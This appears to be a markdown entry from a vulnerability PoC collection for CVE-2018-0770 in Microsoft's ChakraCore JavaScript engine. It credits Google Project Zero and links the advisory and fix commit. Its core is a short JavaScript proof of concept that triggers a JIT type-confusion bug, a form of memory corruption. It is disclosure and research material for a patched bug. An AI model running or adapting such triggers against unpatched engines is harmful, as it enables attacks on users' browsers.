 # CVE-2018-0770

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    let obj = '2.3023e-320';
    for (let i = 0; i < 1; i++) {
        obj.x = 1;
        obj = +obj;
        obj.x = 1;
    }
}

function main() {
    for (let i = 0; i < 100; i++) {
        opt();
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0770)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1434)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/b0ff4cc2439bb4f22beec6477de5f9881878e1ed)